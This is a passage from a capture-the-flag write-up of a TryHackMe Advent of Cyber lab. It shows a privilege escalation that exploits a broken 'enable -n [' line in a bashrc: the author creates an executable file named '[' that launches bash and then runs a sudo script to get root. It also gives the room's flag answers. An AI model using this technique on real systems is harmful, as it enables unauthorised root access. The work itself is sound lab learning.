 By comparing the default system `.bashrc` and `/opt/.bashrc`, we can see that the only difference is the line containing `enable -n [#]`.

```shell
mcskidy@proddb:~/app$ vimdiff /opt/.bashrc /etc/skel/.bashrc
```

![Bashrc](blog/thm/aoc_23_room4/bashrc.png)

In this case, as the line is not correct, the `#]` part of the line is seen as a comment and is being ignored. As `[` is a building CMD, it is being ignored from `enable -n`. Therefore, we should be able to create a file with filename `[` in the `/home/mcskidy` directory _(due to the next line of the script)_ and put our malicious code in there.

```shell
mcskidy@proddb:~$ echo /usr/bin/bash > [
mcskidy@proddb:~$ chmod +x [
mcskidy@proddb:~$ sudo /usr/bin/bash /opt/check.sh
root@proddb:/home/mcskidy# whoami
root
```

🎉 Hooray, it worked! 🎉

>What is the root flag?
> - [x] THM{BaNDiT_YeTi_Lik3s_PATH_HijacKing}
{: .prompt-info }

>What is the `yetikey4.txt` flag?
> - [x] 4-3f$FEBwD6AoqnyLjJ!!Hk4tc*V6w$UuK#evLWkBp
{: .prompt-info }

## Credits

This room was completed with joint efforts with the following teammates:

| | |
|-|-|
|[<img src="https://tryhackme-badges.s3.amazonaws.com/steentofte.png" alt="steentofte">](https://tryhackme.com/p/steentofte)|[<img src="https://tryhackme-badges.s3.amazonaws.com/Asborg.png" alt="Asborg">](https://tryhackme.com/p/Asborg)|
|[<img src="https://tryhackme-badges.s3.amazonaws.com/Ethreal.png" alt="Ethreal">](https://tryhackme.com/p/Ethreal)|[<img src="https://tryhackme-badges.s3.amazonaws.com/RohanHax.png" alt="RohanHax">](https://tryhackme.com/p/RohanHax)|